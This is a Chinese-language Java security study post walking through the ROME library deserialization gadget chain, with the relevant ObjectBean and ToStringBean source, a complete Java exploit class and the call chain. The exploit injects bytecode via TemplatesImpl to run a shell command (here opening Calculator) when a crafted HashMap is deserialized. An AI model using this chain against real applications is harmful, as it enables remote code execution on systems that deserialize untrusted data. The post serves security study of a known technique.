

# Java安全学习—Rome链

Author: H3rmesk1t

Data: 2022.03.05

# 简介
[ROME](https://rometools.github.io/rome/) is a Java framework for RSS and Atom feeds. It's open source and licensed under the Apache 2.0 license.

ROME includes a set of parsers and generators for the various flavors of syndication feeds, as well as converters to convert from one format to another. The parsers can give you back Java objects that are either specific for the format you want to work with, or a generic normalized SyndFeed class that lets you work on with the data without bothering about the incoming or outgoing feed type.

# 环境搭建
> 1. `JDK`版本：JDK1.8u66
> 2. `Commons-Collections`版本：3.1

> 利用`maven`来进行搭建，先创建一个`Maven`项目，不用选择任何`Maven`模板，`pom.xml`中内容如下，之后选择右侧的更新，让其自动导入包即可

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>commons-collections</artifactId>
    <version>1.0-SNAPSHOT</version>

    <dependencies>
        <dependency>
            <groupId>rome</groupId>
            <artifactId>rome</artifactId>
            <version>1.0</version>
        </dependency>
    </dependencies>

</project>
```

# 前置知识
## ObjectBean
`com.sun.syndication.feed.impl.ObjectBean`是`Rome`提供的一个封装类型, 初始化时提供了一个`Class`类型和一个`Object`对象实例进行封装. 与此同时, `ObjectBean`也是使用委托模式设计的类, 其中有三个成员变量, 分别是`EqualsBean`、 `ToStringBean`、`CloneableBean`类, 这三个类为`ObjectBean`提供了`equals`、`toString`、`clone`以及`hashCode`方法.

跟进`ObjectBean#hashCode`方法, 进一步调用`EqualsBean#beanHashCode`方法.

<div align=center></div>

跟进`EqualsBean#beanHashCode`方法, 调用`EqualsBean`保存的`_obj`的`toString`方法, 这个`toString`方法也就是触发利用链的地方.

<div align=center></div>

## ToStringBean
`com.sun.syndication.feed.impl.ToStringBean`是给对象提供`toString`方法的类, 类中有两个`toString`方法, 第一个是无参的方法, 获取调用链中上一个类或`_obj`属性中保存对象的类名, 并调用第二个`toString`方法. 在第二个`toString`方法中, 会调用`BeanIntrospector#getPropertyDescriptors`来获取`_beanClass`的所有`getter`和`setter`方法, 接着判断参数的长度, 长度等于`0`的方法会使用`_obj`实例进行反射调用, 通过这个点我们可以来触发`TemplatesImpl`的利用链.

```java
public String toString() {
    Stack stack = (Stack)PREFIX_TL.get();
    String[] tsInfo = (String[])(stack.isEmpty() ? null : stack.peek());
    String prefix;
    if (tsInfo == null) {
        String className = this._obj.getClass().getName();
        prefix = className.substring(className.lastIndexOf(".") + 1);
    } else {
        prefix = tsInfo[0];
        tsInfo[1] = prefix;
    }

    return this.toString(prefix);
}

private String toString(String prefix) {
    StringBuffer sb = new StringBuffer(128);

    try {
        PropertyDescriptor[] pds = BeanIntrospector.getPropertyDescriptors(this._beanClass);
        if (pds != null) {
            for(int i = 0; i < pds.length; ++i) {
                String pName = pds[i].getName();
                Method pReadMethod = pds[i].getReadMethod();
                if (pReadMethod != null && pReadMethod.getDeclaringClass() != Object.class && pReadMethod.getParameterTypes().length == 0) {
                    Object value = pReadMethod.invoke(this._obj, NO_PARAMS);
                    this.printProperty(sb, prefix + "." + pName, value);
                }
            }
        }
    } catch (Exception var8) {
        sb.append("\n\nEXCEPTION: Could not complete " + this._obj.getClass() + ".toString(): " + var8.getMessage() + "\n");
    }

    return sb.toString();
}
```

<div align=center></div>

# EXP
从上文分析的前置知识不难看出`Rome`链的调用过程, 先利用`HashMap`反序列化来触发`ObjectBean#hashCode`方法, 接着在`EqualsBean#beanHashCode`会进一步调用`ObjectBean`封装的`Object#toString`方法, 从而调用的`ToStringBean#toString`方法, 在第二个`toString`方法中触发`pReadMethod#invoke`, 从而达到恶意反序列化的操作. 根据上述分析, 构造相应的`Exploit`如下:

```java
package org.h3rmesk1t.Rome;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import javassist.*;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Observable;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/6 1:49 上午
 */
public class Exploit {

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {

        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static String serialize(Object obj) throws Exception {

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(obj);
        byte[] expCode = byteArrayOutputStream.toByteArray();
        objectOutputStream.close();
        return Base64.getEncoder().encodeToString(expCode);
    }

    public static void unserialize(String expBase64) throws Exception {

        byte[] bytes = Base64.getDecoder().decode(expBase64);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }

    public static void exp() throws Exception {

        // 生成恶意的 bytecodes
        String cmd = "java.lang.Runtime.getRuntime().exec(\"open -a Calculator.app\");";
        ClassPool classPool = ClassPool.getDefault();
        classPool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = classPool.makeClass("RomeExploit");
        ctClass.setSuperclass(classPool.get(AbstractTranslet.class.getName()));
        ctClass.makeClassInitializer().insertBefore(cmd);
        byte[] ctClassBytes = ctClass.toBytecode();
        byte[][] targetByteCodes = new byte[][]{ctClassBytes};

        // 实例化类并设置属性
        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_name", "h3rmesk1t");
        setFieldValue(templatesImpl, "_bytecodes", targetByteCodes);
        setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());

        // 封装一个无害类并放入 Map 中
        ObjectBean objectBean = new ObjectBean(ObjectBean.class, new ObjectBean(String.class, "h3rmesk1t"));
        HashMap hashMap = new HashMap();
        hashMap.put(objectBean, "h3");

        // put 到 Map 之后再反射写进去, 避免触发漏洞
        ObjectBean expObjectBean = new ObjectBean(Templates.class, templatesImpl);
        setFieldValue(objectBean, "_equalsBean", new EqualsBean(ObjectBean.class, expObjectBean));

        // 生成 exp
        String exp = serialize(hashMap);
        System.out.println(exp);

        // 触发 exp
        unserialize(exp);
    }

    public static void main(String[] args) {
        try {
            exp();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

<div align=center></div>

# 调用链
```xml
HashMap.readObject()
    ObjectBean.hashCode()
            EqualsBean.beanHashCode()
                ObjectBean.toString()
                    ToStringBean.toString()
                        TemplatesImpl.getOutputProperties()
```

# 总结
 1. 利用说明:
    - 利用`HashMap`反序列化来触发`ObjectBean#hashCode`方法, 接着在`EqualsBean#beanHashCode`会进一步调用`ObjectBean`封装的`Object#toString`方法, 从而调用的`ToStringBean#toString`方法, 在第二个`toString`方法中触发`pReadMethod#invoke`, 从而达到恶意反序列化的操作.
 2. Gadget:
    - kick-off gadget: java.util.HashMap#readObject
    - sink gadget: com.sun.syndication.feed.impl.ToStringBean#toString
    - chain gadget: com.sun.syndication.feed.impl.ObjectBean#toString

# 参考
 - [ROME](https://su18.org/post/ysoserial-su18-5/#rome)